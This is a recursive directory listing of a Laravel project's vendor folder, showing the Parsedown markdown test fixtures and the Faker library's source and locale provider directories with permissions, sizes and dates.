-rw-r--r-- 1 www-data www-data 2.8K Mar 29  2017 README.md
-rw-r--r-- 1 www-data www-data  478 Mar 29  2017 composer.json
-rw-r--r-- 1 www-data www-data  201 Mar 29  2017 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 test

/var/www/laravel/vendor/erusev/parsedown/test:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Mar 29  2017 CommonMarkTest.php
-rw-r--r-- 1 www-data www-data 3.7K Mar 29  2017 ParsedownTest.php
-rw-r--r-- 1 www-data www-data   49 Mar 29  2017 TestParsedown.php
-rw-r--r-- 1 www-data www-data  215 Mar 29  2017 bootstrap.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 data

/var/www/laravel/vendor/erusev/parsedown/test/data:
total 432K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data  191 Mar 29  2017 aesthetic_table.html
-rw-r--r-- 1 www-data www-data   95 Mar 29  2017 aesthetic_table.md
-rw-r--r-- 1 www-data www-data  488 Mar 29  2017 aligned_table.html
-rw-r--r-- 1 www-data www-data  139 Mar 29  2017 aligned_table.md
-rw-r--r-- 1 www-data www-data  128 Mar 29  2017 atx_heading.html
-rw-r--r-- 1 www-data www-data   90 Mar 29  2017 atx_heading.md
-rw-r--r-- 1 www-data www-data   58 Mar 29  2017 automatic_link.html
-rw-r--r-- 1 www-data www-data   20 Mar 29  2017 automatic_link.md
-rw-r--r-- 1 www-data www-data  182 Mar 29  2017 block-level_html.html
-rw-r--r-- 1 www-data www-data  179 Mar 29  2017 block-level_html.md
-rw-r--r-- 1 www-data www-data  175 Mar 29  2017 code_block.html
-rw-r--r-- 1 www-data www-data  144 Mar 29  2017 code_block.md
-rw-r--r-- 1 www-data www-data  284 Mar 29  2017 code_span.html
-rw-r--r-- 1 www-data www-data  189 Mar 29  2017 code_span.md
-rw-r--r-- 1 www-data www-data  106 Mar 29  2017 compound_blockquote.html
-rw-r--r-- 1 www-data www-data   62 Mar 29  2017 compound_blockquote.md
-rw-r--r-- 1 www-data www-data  153 Mar 29  2017 compound_emphasis.html
-rw-r--r-- 1 www-data www-data   47 Mar 29  2017 compound_emphasis.md
-rw-r--r-- 1 www-data www-data  123 Mar 29  2017 compound_list.html
-rw-r--r-- 1 www-data www-data   48 Mar 29  2017 compound_list.md
-rw-r--r-- 1 www-data www-data  104 Mar 29  2017 deeply_nested_list.html
-rw-r--r-- 1 www-data www-data   53 Mar 29  2017 deeply_nested_list.md
-rw-r--r-- 1 www-data www-data  399 Mar 29  2017 em_strong.html
-rw-r--r-- 1 www-data www-data  190 Mar 29  2017 em_strong.md
-rw-r--r-- 1 www-data www-data   69 Mar 29  2017 email.html
-rw-r--r-- 1 www-data www-data   28 Mar 29  2017 email.md
-rw-r--r-- 1 www-data www-data  370 Mar 29  2017 emphasis.html
-rw-r--r-- 1 www-data www-data  237 Mar 29  2017 emphasis.md
-rw-r--r-- 1 www-data www-data  280 Mar 29  2017 escaping.html
-rw-r--r-- 1 www-data www-data  201 Mar 29  2017 escaping.md
-rw-r--r-- 1 www-data www-data  183 Mar 29  2017 fenced_code_block.html
-rw-r--r-- 1 www-data www-data  116 Mar 29  2017 fenced_code_block.md
-rw-r--r-- 1 www-data www-data   34 Mar 29  2017 horizontal_rule.html
-rw-r--r-- 1 www-data www-data   30 Mar 29  2017 horizontal_rule.md
-rw-r--r-- 1 www-data www-data   76 Mar 29  2017 html_comment.html
-rw-r--r-- 1 www-data www-data   65 Mar 29  2017 html_comment.md
-rw-r--r-- 1 www-data www-data   26 Mar 29  2017 html_entity.html
-rw-r--r-- 1 www-data www-data   19 Mar 29  2017 html_entity.md
-rw-r--r-- 1 www-data www-data   76 Mar 29  2017 image_reference.html
-rw-r--r-- 1 www-data www-data   63 Mar 29  2017 image_reference.md
-rw-r--r-- 1 www-data www-data  108 Mar 29  2017 image_title.html
-rw-r--r-- 1 www-data www-data   51 Mar 29  2017 image_title.md
-rw-r--r-- 1 www-data www-data  375 Mar 29  2017 implicit_reference.html
-rw-r--r-- 1 www-data www-data  298 Mar 29  2017 implicit_reference.md
-rw-r--r-- 1 www-data www-data 6.0K Mar 29  2017 inline_link.html
-rw-r--r-- 1 www-data www-data 5.9K Mar 29  2017 inline_link.md
-rw-r--r-- 1 www-data www-data  419 Mar 29  2017 inline_link_title.html
-rw-r--r-- 1 www-data www-data  280 Mar 29  2017 inline_link_title.md
-rw-r--r-- 1 www-data www-data  136 Mar 29  2017 inline_title.html
-rw-r--r-- 1 www-data www-data   95 Mar 29  2017 inline_title.md
-rw-r--r-- 1 www-data www-data   94 Mar 29  2017 lazy_blockquote.html
-rw-r--r-- 1 www-data www-data   58 Mar 29  2017 lazy_blockquote.md
-rw-r--r-- 1 www-data www-data   37 Mar 29  2017 lazy_list.html
-rw-r--r-- 1 www-data www-data   19 Mar 29  2017 lazy_list.md
-rw-r--r-- 1 www-data www-data   22 Mar 29  2017 line_break.html
-rw-r--r-- 1 www-data www-data   11 Mar 29  2017 line_break.md
-rw-r--r-- 1 www-data www-data   48 Mar 29  2017 multiline_list_paragraph.html
-rw-r--r-- 1 www-data www-data   19 Mar 29  2017 multiline_list_paragraph.md
-rw-r--r-- 1 www-data www-data   95 Mar 29  2017 nested_block-level_html.html
-rw-r--r-- 1 www-data www-data   82 Mar 29  2017 nested_block-level_html.md
-rw-r--r-- 1 www-data www-data  157 Mar 29  2017 ordered_list.html
-rw-r--r-- 1 www-data www-data   74 Mar 29  2017 ordered_list.md
-rw-r--r-- 1 www-data www-data  112 Mar 29  2017 paragraph_list.html
-rw-r--r-- 1 www-data www-data   51 Mar 29  2017 paragraph_list.md
-rw-r--r-- 1 www-data www-data  309 Mar 29  2017 reference_title.html
-rw-r--r-- 1 www-data www-data  258 Mar 29  2017 reference_title.md
-rw-r--r-- 1 www-data www-data  201 Mar 29  2017 self-closing_html.html
-rw-r--r-- 1 www-data www-data  159 Mar 29  2017 self-closing_html.md
-rw-r--r-- 1 www-data www-data   66 Mar 29  2017 separated_nested_list.html
-rw-r--r-- 1 www-data www-data   23 Mar 29  2017 separated_nested_list.md
-rw-r--r-- 1 www-data www-data   76 Mar 29  2017 setext_header.html
-rw-r--r-- 1 www-data www-data   60 Mar 29  2017 setext_header.md
-rw-r--r-- 1 www-data www-data  177 Mar 29  2017 simple_blockquote.html
-rw-r--r-- 1 www-data www-data   57 Mar 29  2017 simple_blockquote.md
-rw-r--r-- 1 www-data www-data  468 Mar 29  2017 simple_table.html
-rw-r--r-- 1 www-data www-data  165 Mar 29  2017 simple_table.md
-rw-r--r-- 1 www-data www-data  184 Mar 29  2017 span-level_html.html
-rw-r--r-- 1 www-data www-data  126 Mar 29  2017 span-level_html.md
-rw-r--r-- 1 www-data www-data   55 Mar 29  2017 sparse_dense_list.html
-rw-r--r-- 1 www-data www-data   15 Mar 29  2017 sparse_dense_list.md
-rw-r--r-- 1 www-data www-data   42 Mar 29  2017 sparse_html.html
-rw-r--r-- 1 www-data www-data   42 Mar 29  2017 sparse_html.md
-rw-r--r-- 1 www-data www-data  114 Mar 29  2017 sparse_list.html
-rw-r--r-- 1 www-data www-data   40 Mar 29  2017 sparse_list.md
-rw-r--r-- 1 www-data www-data  320 Mar 29  2017 special_characters.html
-rw-r--r-- 1 www-data www-data  191 Mar 29  2017 special_characters.md
-rw-r--r-- 1 www-data www-data  142 Mar 29  2017 strikethrough.html
-rw-r--r-- 1 www-data www-data  102 Mar 29  2017 strikethrough.md
-rw-r--r-- 1 www-data www-data  281 Mar 29  2017 strong_em.html
-rw-r--r-- 1 www-data www-data  124 Mar 29  2017 strong_em.md
-rw-r--r-- 1 www-data www-data  107 Mar 29  2017 tab-indented_code_block.html
-rw-r--r-- 1 www-data www-data   85 Mar 29  2017 tab-indented_code_block.md
-rw-r--r-- 1 www-data www-data  297 Mar 29  2017 table_inline_markdown.html
-rw-r--r-- 1 www-data www-data  159 Mar 29  2017 table_inline_markdown.md
-rw-r--r-- 1 www-data www-data  462 Mar 29  2017 text_reference.html
-rw-r--r-- 1 www-data www-data  348 Mar 29  2017 text_reference.md
-rw-r--r-- 1 www-data www-data  103 Mar 29  2017 unordered_list.html
-rw-r--r-- 1 www-data www-data   41 Mar 29  2017 unordered_list.md
-rw-r--r-- 1 www-data www-data  191 Mar 29  2017 untidy_table.html
-rw-r--r-- 1 www-data www-data  121 Mar 29  2017 untidy_table.md
-rw-r--r-- 1 www-data www-data  444 Mar 29  2017 url_autolinking.html
-rw-r--r-- 1 www-data www-data  220 Mar 29  2017 url_autolinking.md
-rw-r--r-- 1 www-data www-data   28 Mar 29  2017 whitespace.html
-rw-r--r-- 1 www-data www-data   20 Mar 29  2017 whitespace.md

/var/www/laravel/vendor/fzaninotto:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 faker

/var/www/laravel/vendor/fzaninotto/faker:
total 116K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   21 Apr 29  2016 .gitignore
-rw-r--r-- 1 www-data www-data  293 Apr 29  2016 .travis.yml
-rw-r--r-- 1 www-data www-data  26K Apr 29  2016 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 2.7K Apr 29  2016 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.2K Apr 29  2016 LICENSE
-rw-r--r-- 1 www-data www-data  225 Apr 29  2016 Makefile
-rw-r--r-- 1 www-data www-data  760 Apr 29  2016 composer.json
-rw-r--r-- 1 www-data www-data  265 Apr 29  2016 phpunit.xml.dist
-rw-r--r-- 1 www-data www-data  44K Apr 29  2016 readme.md
drwxr-xr-x 3 www-data www-data 4.0K Apr 29  2016 src
drwxr-xr-x 3 www-data www-data 4.0K Apr 29  2016 test

/var/www/laravel/vendor/fzaninotto/faker/src:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 6 www-data www-data 4.0K Apr 29  2016 Faker
-rw-r--r-- 1 www-data www-data  878 Apr 29  2016 autoload.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker:
total 52K
drwxr-xr-x  6 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x  3 www-data www-data 4.0K Apr 29  2016 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 Calculator
-rw-r--r--  1 www-data www-data  613 Apr 29  2016 DefaultGenerator.php
-rw-r--r--  1 www-data www-data 2.5K Apr 29  2016 Documentor.php
-rw-r--r--  1 www-data www-data 2.0K Apr 29  2016 Factory.php
-rw-r--r--  1 www-data www-data 7.8K Apr 29  2016 Generator.php
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 Guesser
drwxr-xr-x  8 www-data www-data 4.0K Apr 29  2016 ORM
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 Provider
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 UniqueGenerator.php
-rw-r--r--  1 www-data www-data 1.7K Apr 29  2016 ValidGenerator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Calculator:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 1.7K Apr 29  2016 Iban.php
-rw-r--r-- 1 www-data www-data 1.3K Apr 29  2016 Luhn.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Guesser:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 5.1K Apr 29  2016 Name.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM:
total 32K
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Apr 29  2016 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 CakePHP
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 Doctrine
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 Mandango
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 Propel
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 Propel2
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 Spot

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/CakePHP:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 2.0K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 4.5K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.5K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/Doctrine:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 6.9K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.8K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/Mandango:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 1.3K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 3.4K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.0K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/Propel:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 3.6K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 5.8K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.8K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/Propel2:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 3.6K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 5.9K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.9K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/ORM/Spot:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr 29  2016 ColumnTypeGuesser.php
-rw-r--r-- 1 www-data www-data 5.6K Apr 29  2016 EntityPopulator.php
-rw-r--r-- 1 www-data www-data 2.6K Apr 29  2016 Populator.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider:
total 464K
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x  6 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 3.3K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.7K Apr 29  2016 Barcode.php
-rw-r--r--  1 www-data www-data  20K Apr 29  2016 Base.php
-rw-r--r--  1 www-data www-data 1.8K Apr 29  2016 Biased.php
-rw-r--r--  1 www-data www-data 3.9K Apr 29  2016 Color.php
-rw-r--r--  1 www-data www-data  829 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 9.6K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  48K Apr 29  2016 File.php
-rw-r--r--  1 www-data www-data 3.3K Apr 29  2016 Image.php
-rw-r--r--  1 www-data www-data  15K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 8.5K Apr 29  2016 Lorem.php
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Miscellaneous.php
-rw-r--r--  1 www-data www-data  12K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 3.1K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 1.1K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 4.6K Apr 29  2016 Text.php
-rw-r--r--  1 www-data www-data 6.0K Apr 29  2016 UserAgent.php
-rw-r--r--  1 www-data www-data 1.7K Apr 29  2016 Uuid.php
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ar_JO
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ar_SA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 at_AT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 bg_BG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 bn_BD
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 cs_CZ
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 da_DK
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_AT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 de_DE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 el_GR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_AU
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_CA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_GB
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_IN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_NZ
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_PH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_SG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_UG
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_US
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 en_ZA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 es_AR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 es_ES
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 es_PE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 es_VE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fa_IR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fi_FI
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_BE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_CA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 fr_FR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 he_IL
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 hr_HR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 hu_HU
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 hy_AM
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 id_ID
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 is_IS
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 it_CH
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 it_IT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ja_JP
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ka_GE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 kk_KZ
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ko_KR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 lt_LT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 lv_LV
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 me_ME
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 mn_MN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 nb_NO
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ne_NP
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 nl_BE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 nl_NL
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 pl_PL
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 pt_BR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 pt_PT
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ro_MD
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ro_RO
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 ru_RU
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sk_SK
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sl_SI
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sr_Cyrl_RS
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sr_Latn_RS
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sr_RS
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 sv_SE
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 tr_TR
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 uk_UA
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 vi_VN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 zh_CN
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 zh_TW

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ar_JO:
total 224K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 9.8K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  19K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 173K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/ar_SA:
total 220K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.8K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.6K Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  16K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 173K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/at_AT:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  780 Apr 29  2016 Payment.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/bg_BG:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  318 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  33K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  426 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/bn_BD:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  13K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  609 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.5K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  263 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data  305 Apr 29  2016 Utils.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/cs_CZ:
total 584K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 9.1K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 3.6K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data 1.7K Apr 29  2016 DateTime.php
-rw-r--r--  1 www-data www-data  327 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  35K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  267 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 507K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/da_DK:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  16K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 1.9K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  675 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  16K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  396 Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/de_AT:
total 52K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 8.5K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  323 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  272 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  389 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data   90 Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/de_CH:
total 176K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  341 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  328 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data 7.0K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  907 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 129K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/de_DE:
total 188K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  11K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  613 Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  314 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  18K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data  431 Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 129K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/el_GR:
total 612K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data  19K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data 2.3K Apr 29  2016 Company.php
-rw-r--r--  1 www-data www-data  668 Apr 29  2016 Payment.php
-rw-r--r--  1 www-data www-data  34K Apr 29  2016 Person.php
-rw-r--r--  1 www-data www-data 2.0K Apr 29  2016 PhoneNumber.php
-rw-r--r--  1 www-data www-data 533K Apr 29  2016 Text.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_AU:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
drwxr-xr-x 70 www-data www-data 4.0K Apr 29  2016 ..
-rw-r--r--  1 www-data www-data 4.7K Apr 29  2016 Address.php
-rw-r--r--  1 www-data www-data  348 Apr 29  2016 Internet.php
-rw-r--r--  1 www-data www-data 1.4K Apr 29  2016 PhoneNumber.php

/var/www/laravel/vendor/fzaninotto/faker/src/Faker/Provider/en_CA:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr 29  2016 .
